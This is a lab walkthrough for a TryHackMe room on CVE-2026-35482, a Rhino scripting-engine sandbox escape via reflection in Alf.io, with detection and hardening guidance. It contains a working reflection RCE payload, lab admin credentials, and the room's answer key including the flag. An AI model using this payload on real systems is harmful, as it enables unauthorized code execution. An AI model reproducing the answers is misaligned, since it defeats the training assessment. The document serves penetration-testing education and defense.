

# NoScope: Finding RCE · Technical Guide & Room Documentation

---

## 1. Metadata & Room Header

- **Room Title:** NoScope: Finding RCE
- **Room Slug:** `noscoperce`
- **Learning Path:** Junior Penetration Tester (Module 09: Vulnerability Knowledge)
- **Module Order:** Room 04 of 09
- **Difficulty:** Medium
- **Assessment Type:** Practical Walkthrough & CVE Analysis
- **Tags:** `CVE-2026-35482`, `RCE`, `Java`, `Mozilla Rhino`, `Reflection`, `Sandbox Escape`, `Autonomous Pentesting`, `Alf.io`

---

## 2. Room Overview & Executive Summary

This room presents a practical case study examining how autonomous AI-driven penetration testing platforms discover complex vulnerabilities in black-box environments without source code access. Focusing on **CVE-2026-35482** in **Alf.io 2.0-M5-2509-1** (an open-source Java/Spring Boot event management platform), the lab illustrates why superficial string-matching blocklists fail to protect embedded scripting engines (Mozilla Rhino). By leveraging an exposed reflection primitive (`returnClass`), an attacker dynamically loads `java.lang.Runtime` to execute operating system commands when triggered by application lifecycle hooks (`EVENT_STATUS_CHANGE`).

---

## 3. Architecture & Attack Surface Analysis



---

## 4. Pedagogical Objectives & Skills Matrix

| Target Competency | Technical Description | Verification & Measurement |
| :--- | :--- | :--- |
| **Embedded Engine Fingerprinting** | Identify Mozilla Rhino within an enterprise Java/Spring Boot architecture. | Answered `Mozilla Rhino`. |
| **Static Defense Deconstruction** | Analyze the failure modes of keyword-based input validation. | Traced dynamic class loading logic. |
| **Java Reflection Exploitation** | Construct reflective invocation chains using `java.lang.Class.forName()`. | Bypassed static AST filters. |
| **Event-Driven Exploitation** | Bind execution payloads to application lifecycle transition events. | Identified `EVENT_STATUS_CHANGE`. |
| **Autonomous Assessment Analysis** | Review AI agent penetration testing workflows and compromise verification. | Retrieved `THM-{ALF_CV3_PWN}`. |

---

## 5. Comprehensive Task Breakdown

| Task # | Task Title | Primary Objective / Target Question | Verified Answer Value |
| :---: | :--- | :--- | :---: |
| **Task 01** | Introduction | I am ready to start! | `No answer needed` |
| **Task 02** | Vulnerability Hunting with NoScope | What sandboxing engine did NoScope identify as the one in use? | `Mozilla Rhino` |
| **Task 02** | Vulnerability Hunting with NoScope | What was the flag value NoScope retrieved out of flag.txt? | `THM-{ALF_CV3_PWN}` |
| **Task 03** | Weaponizing the CVE | On what event is the exploit payload triggered? | `EVENT_STATUS_CHANGE` |
| **Task 04** | Conclusion | Done! | `No answer needed` |

---

## 6. Methodology & Reconnaissance Strategy

The vulnerability discovery and verification workflow follows these phases:
1. **Attack Surface Discovery:** Identifying privileged endpoints allowing dynamic code input (Extension/Plugin engines).
2. **Engine Identification:** Triggering controlled syntax errors to extract runtime stack traces disclosing Mozilla Rhino.
3. **Sandbox Scope Analysis:** Inspecting exposed global variables for unshielded Java objects (`returnClass`).
4. **Reflection Evasion:** Constructing a dynamic invocation chain (`Class.forName()`) to evade literal string filtering.
5. **Lifecycle Binding:** Attaching the script to an administrative state change event to trigger reliable execution.

---

## 7. Deep-Dive Practical Walkthrough

### 1. Identifying the Script Engine
NoScope evaluated the application's extension engine and detected Mozilla Rhino:
```text
Engine: Mozilla Rhino (JavaScript implementation in Java)
Vulnerability: CVE-2026-35482
Retrieved Flag: THM-{ALF_CV3_PWN}
```

### 2. Crafting the Reflection Payload
Registering the extension under `http://MACHINE_IP/admin` (Credentials: `admin` / `Password1!`):
```javascript
function getScriptMetadata() {
    return {
        id: 'rce-validate',
        displayName: 'RCE Validate',
        version: 0,
        async: false,
        events: ['EVENT_STATUS_CHANGE']
    };
}

function executeScript(scriptEvent) {
    var rtClass = returnClass.forName('java.lang.Runtime');
    var strClass = returnClass.forName('java.lang.String');
    var runtime = rtClass.getMethod('getRuntime').invoke(null);
    var proc = rtClass.getMethod('exec', strClass).invoke(runtime, 'whoami');
    var bytes = proc.getInputStream().readAllBytes();
    var output = '';
    for (var i = 0; i < bytes.length; i++) {
        output += String.fromCharCode(bytes[i] & 0xFF);
    }
    return { status: output.trim() };
}
```

### 3. Firing the Trigger Event
- In the Alf.io console, navigate to **Events**.
- Select an existing draft event and click **Publish Now**.
- The state transition fires `EVENT_STATUS_CHANGE`, which executes the reflective payload under the context of system user `alfio`.

---

## 8. Vulnerability Analysis & Exploitation Mechanics

### Root Cause: CVE-2026-35482 (CWE-94 / CWE-693)
The vulnerability stems from exposing raw Java class references to untrusted execution scopes. While the platform checked for literal strings like `Runtime` in the script source, the exposed `returnClass` variable allowed the script to dynamically query any class on the application classpath via `forName()`, rendering keyword filtering ineffective.

---

## 9. Detection, Logging & Forensic Artifacts

- **Application Logs (`application.log`):**
  Logs reflect extension execution and dynamic reflective invocations.
- **Operating System Telemetry (Auditd / Sysmon):**
  Detects abnormal process creation where `java` spawns child binaries (`/bin/sh`, `whoami`, `cat`).

---

## 10. Hardening, Mitigation & Remediation Guide

1. **Replace Raw Class Objects:** Wrap injected scope objects in restricted facades that do not expose reflection APIs (`forName`, `getMethod`).
2. **Implement Rhino ClassShutter:** Restrict class visibility strictly to safe application DTO packages.
3. **Upgrade to Secure Polyglot Engines:** Migrate to GraalVM JavaScript configured with `HostAccess.EXPLICIT`.

---

## 11. Defense-in-Depth & Enterprise Architecture

- **Least Privilege Execution:** Run application runtimes under dedicated, non-root accounts (`alfio`) with minimal filesystem permissions.
- **Process Isolation:** Apply Seccomp profiles and AppArmor to restrict JVM processes from executing shell binaries.
- **Strict Egress Filtering:** Prevent unauthorized outbound network connections from application tiers.

---

## 12. Tool Comparison & Quick Reference

| Technology / Component | Role in Scenario | Key Characteristic |
| :--- | :--- | :--- |
| **NoScope** | Autonomous vulnerability scanner | Black-box AI pentesting platform |
| **Mozilla Rhino** | Embedded JS interpreter | Legacy scripting engine in Java |
| **Java Reflection** | Exploitation vector | Dynamic runtime class resolution |
| **GraalVM** | Modern remediation target | Fine-grained capability sandboxing |

---

## 13. Common Pitfalls & Operational Troubleshooting

1. **Relying on Keyword Blacklists:** String filters are consistently bypassed in reflective environments.
2. **Flag Formatting Details:** Ensure the hyphen is included: `THM-{ALF_CV3_PWN}`.
3. **Missing the Trigger Action:** Extensions bound to events require active lifecycle triggers (`EVENT_STATUS_CHANGE`) to execute.

---

## 14. References & Standards

- Official TryHackMe Room: [https://tryhackme.com/room/noscoperce](https://tryhackme.com/room/noscoperce)
- NoScope CVE Advisory: [https://www.noscope.com/blog/cve-2026-35482-noscope-alf-rce](https://www.noscope.com/blog/cve-2026-35482-noscope-alf-rce)
- MITRE CWE-94: [Code Injection](https://cwe.mitre.org/data/definitions/94.html)
- OWASP Top 10 (A03:2021): [Injection](https://owasp.org/Top10/A03_2021-Injection/)
